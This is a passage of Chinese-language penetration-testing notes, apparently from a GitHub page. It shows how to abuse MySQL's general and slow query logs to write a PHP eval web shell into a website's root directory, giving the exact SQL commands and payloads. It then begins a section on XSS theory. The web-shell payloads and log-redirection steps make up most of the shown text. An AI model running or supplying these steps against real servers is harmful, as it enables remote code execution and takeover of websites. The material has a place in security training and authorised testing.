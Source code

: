 查看是否开启了全局日志以及全局日志的存放位置

```
SHOW VARIABLES LIKE '%general%' 
```

修改或者设置全局日志的保存目录为网站的web目录,并且日志保存为php文件

```
set global general_log=on;
set global general_log_file="C:\\phpStudy\\WWW\\test.php";
```

设置开启日志以及日志存储位置,这里日志存储位置为站点的根目录,执行命令写入日志文件

```
SELECT "<?php @eval($_POST['cmd']); ?>"
```

#### 17.数据库慢查询日志写入

慢日志查询 记录所有执行时间超过字段long_query_time规定时间的所有查询或者不使用索引的查询,默认情况下慢查询日志为关闭,long_query_time值为10秒

条件

1. 数据库root权限
2. 获取网站的绝对路径

查询相关配置

```
show variables like '%slow%' 
```

打开

```
set global slow_query_log=on;
```

写入

```
select '<?php @eval($_POST[shell]);?>' or sleep(10); 
```

#### 18.Mysql 在渗透测试中的利用

[Mysql 在渗透测试中的利用 | K0rz3n's Blog](https://www.k0rz3n.com/2018/10/21/Mysql 在渗透测试中的利用/#三、MYSQL-UDF-提权)

## 02-xss漏洞

#### 1.原理

XSS全称为Cross Site Scripting，为了和CSS分开简写为XSS，中文名为跨站脚本。该漏洞发生在用户端，是指在渲染过程中发生了非预期的JavaScript代码执行。XSS通常被用于获取Cookie、以受攻击者的身份进行操作等行为。

#### 2.分类：

反射型XSS
储存型XSS
DOM XSS
